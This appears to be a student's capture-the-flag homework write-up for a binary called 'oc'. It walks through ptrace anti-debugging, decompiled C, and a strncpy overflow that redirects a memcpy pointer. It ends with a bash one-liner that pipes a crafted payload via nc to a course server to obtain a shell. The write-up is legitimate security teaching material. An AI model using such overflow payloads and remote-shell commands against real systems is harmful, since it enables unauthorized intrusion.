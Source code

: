 # HW1-3: oc
**0016302 heron**

## Problem
Get flag string from the binary "oc"

## Step
**Goal**: get /bin/sh to *cat flag* by overwriting overflowed memory

**Tool**: radare2 + IDA Pro 6.1

### anti-debugger code is found
ptrace() function is called at the beginning of main function:
```
|       0x080485e5     f7d8             neg eax
|       0x080485e7     89c2             mov edx, eax
|       0x080485e9     b807870408       mov eax, loc.08048707
|       0x080485ee     21d0             and eax, edx
|       0x080485f0     89442414         mov [esp+0x14], eax
|       0x080485f4     c744240c00000000 mov dword [esp+0xc], 0x0
|       0x080485fc     c744240801000000 mov dword [esp+0x8], 0x1
|       0x08048604     c744240400000000 mov dword [esp+0x4], 0x0
|       0x0804860c     c7042400000000   mov dword [esp], 0x0
|       0x08048613     e888feffff       call dword imp.ptrace
```

and different result is gave if ptrace < 0 (had been called before):
```
|     |||   0x080486d0     837c241800       cmp dword [esp+0x18], 0x0
|    ,====< 0x080486d5     7830             js loc.08048707 [6]
```

More, there are several nop code in oc to confuse debuggers, like:
```
/ loc: loc.08048706 (71)
|   |||     0x08048706  loc.08048706:
|   ||`---> 0x08048706     90               nop
|   ||      ; CODE (JMP) XREF 0x080486d5 (main)
|   ||      ; CODE (JMP) XREF 0x08048704 (main)
/ loc: loc.08048707 (70)
|   ||      0x08048707  loc.08048707:
|   ``----> 0x08048707     c7042454880408   mov dword [esp], str.uhhh....itssomethingwrong.
```

### decompile
We get following interesting C code from IDA Pro:
```
int __cdecl sub_80485D7(signed int a1, int a2)
{
    char *v2; // ST14_4@1
    size_t v3; // eax@1
    size_t v4; // eax@10
    int v6; // [sp+18h] [bp-8h]@1

    v2 = (char *)(-getpagesize() & (unsigned int)loc_8048707);
    v6 = ptrace(0, 0, 1, 0);
    v3 = getpagesize();
    mprotect(v2, v3, 7);
    if ( a1 <= 7 )
    {
        puts("I need 7 candicates.");
        exit(1);
    }
    if ( a1 > 8 )
    {
        puts("Too many candidates");
        exit(1);
    }
    if ( a1 == 13 )
    {
        sub_80485AD();
    }
    else
    {
        if ( a1 != 14 )
        {
            if ( a1 != 12 )
            {
                dword_804A044 = loc_8048707;
                dword_804A058 = loc_8048720;
                v4 = strlen(*(const char **)(a2 + 28));
                strncpy(byte_804A048, *(const char **)(a2 + 28), v4);
                if ( v6 >= 0 )
                    memcpy(dword_804A044, dword_804A058, dword_804A058 - dword_804A044);
            }
            puts("uhhh....it's something wrong.");
            exit(0);
        }
    }
    system("/bin/sh");
    return 0;
}
```

where:

- a1: argc for oc
- (a2+28): argv[7]
- loc_8048707: function pointer for printing "...something wrong..."
- loc_8048720: function pointer for printing "...hongkong occupy..."

### analysis
If argc==8 (7 input argvs), and not using debugger, we can get into the memcpy part ( **memcpy(dword_804A044, dword_804A058, dword_804A058 - dword_804A044)** ), which will copy the whole function from **loc_8048720** to **loc_8048707**.

However, we can overwriting dword_804A058 from byte_804A048 since the strncpy is not well protected for length checking. And, by overwriting dword_804A058, we then make the program memcpy from another location to loc_8048707 (loc_8048707 is where the program will jump to after finishing this part).

## Solution
There are 16 bytes between byte_804A048 and dword_804A058, so let's put something meaningless then put the location we like to jump:
```
#!/bin/bash
(python -c "print '1 2 3 4 5 6 ' + 'A'*16 + '\x30\x87\x04\x08\n'" && cat) | nc secprog.cs.nctu.edu.tw 10002
```

